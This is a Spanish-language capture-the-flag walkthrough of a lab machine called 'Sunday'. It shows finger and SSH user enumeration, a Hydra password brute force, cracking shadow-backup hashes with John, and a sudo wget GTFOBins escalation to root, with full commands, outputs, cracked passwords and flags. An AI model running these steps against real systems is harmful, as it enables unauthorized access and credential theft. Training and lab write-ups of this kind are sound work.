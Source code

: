```yaml
---
title: Sunday
published: true
---
```


---
## Intrusion

Escaneo con Nmap para descubrir puertos abiertos en la máquina.

```bash
❯ nmap -p- --open 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.17s latency).
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown
```

* 79/tcp open finger?
* 11/tcp open rpcbind 2-4 (RPC #100000)
* 515/tcp open printer
* 6787/tcp open ssl/http Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
* 22022/tcp open ssh OpenSSH 7.5 (protocol 2.0)


### Enumerando Finger

Finger es un servicio de red utilizado en sistemas operativos Unix y Linux para obtener información acerca de los usuarios del sistema. Este servicio permite a los usuarios de un sistema Unix o Linux obtener información básica sobre otros usuarios, como su nombre, dirección de correo electrónico, última hora de inicio de sesión y el terminal utilizado para conectarse al sistema.

Empezamos listando posibles usuarios.

```bash
❯ finger @10.10.10.76
No one logged on
```

Pero no muestra nada.

Con netcat tratamos de conectarnos y podemos verificar si existen usuarios.

```bash
❯ nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
root
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

Para hacer esto mejor, existe una herramienta que podemos usar para enumerar mas usuarios. 

[Finger-user-enum](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

Con esta herramienta podemos pasarle un nombre o una lista de usuarios y esperar para ver cuales existen y la información. 

```bash
❯ ./finger-user-enum.pl -u root -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started #########
root@10.10.10.76: root     Super-User            console      <Oct 14, 2022>..
######## Scan completed #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)
```

```bash
❯ ./finger-user-enum.pl -U names.txt -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..netadm   Network Admin                      < .  .  .  . >..netcfg   Network Configuratio               < .  .  .  . >..dhcpserv DHCP Configuration A               < .  .  .  . >..ikeuser  IKE Admin                          < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
ike@10.10.10.76: ikeuser  IKE Admin                          < .  .  .  . >..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..ann                   ???..jo                    ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..mela                  ???..miof                  ???..
root@10.10.10.76: root     Super-User            console      <Oct 14, 2022>..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed #########
16 results.

10177 queries in 775 seconds (13.1 queries / sec)
```

Con este escaneo vemos mas usuarios y su información. 

### SSH

El puerto del servicio Secure Shell esta configurado en el puerto 22022 y la versión es vulnerable a ‘user enumeration’.

> 22022/tcp open ssh OpenSSH 7.5 (protocol 2.0)

Con la información del escaneo anterior vemos 2 usuarios conectados por SSH, sammy y sunny. Podríamos tratar de ver si son validos. 

```bash
❯ python3 ssh_enum.py 10.10.10.76 -p 22022 sammy
[+] sammy is a valid username
❯ python3 ssh_enum.py 10.10.10.76 -p 22022 sunny
[+] sunny is a valid username
```

Y los dos usuarios son validos, con lo que intentaría un ataque de fuerza bruta con hydra.

```bash
❯ hydra -L users_ssh.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76 -s 22022 -u -f
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes

[DATA] attacking ssh://10.10.10.76:22022/
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
[STATUS] attack finished for 10.10.10.76 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Obtenemos la contraseña del usuario sunny y iniciamos sesión por SSH.

```bash
❯ ssh sunny@10.10.10.76 -p 22022
Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$
```

En el directorio de sammy podemos ver la primera flag.

```bash
sunny@sunday:/home/sammy$ ls
user.txt
sunny@sunday:/home/sammy$ cat user.txt 
366740e21662974c853bd8ea933391d1
sunny@sunday:/home/sammy$
```

## Elevando Privilegios

En la raíz del sistema hay una carpeta llamada ‘backup’, nos metemos y hay 2 archivos de texto que contienen parte del archivo shadow del sistema.

```bash
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat *
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:/backup$
```

Con John intentaría obtener la contraseña del usuario Sammy 

```bash
❯ john hash.txt --w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Una vez siendo Sammy si listamos perimisos sudo vemos que podemos ejecutar wget como root.

```bash
sammy@sunday:/home/sammy$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Buscamos el binario en Gtfobins y nos da los siguientes comandos para convertirnos en root.

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

Ejecutamos y somos root y ya podemos leer la flag.

```bash
sammy@sunday:/home/sammy$ whoami
sammy
sammy@sunday:/home/sammy$ TF=$(mktemp)
sammy@sunday:/home/sammy$ chmod +x $TF
sammy@sunday:/home/sammy$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sammy@sunday:/home/sammy$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# whoami
root
root@sunday:/home/sammy# cat /root/root.txt                                                                                                                      
0a9706f6ad348fcf77d778956dcd49e5
root@sunday:/home/sammy#
```

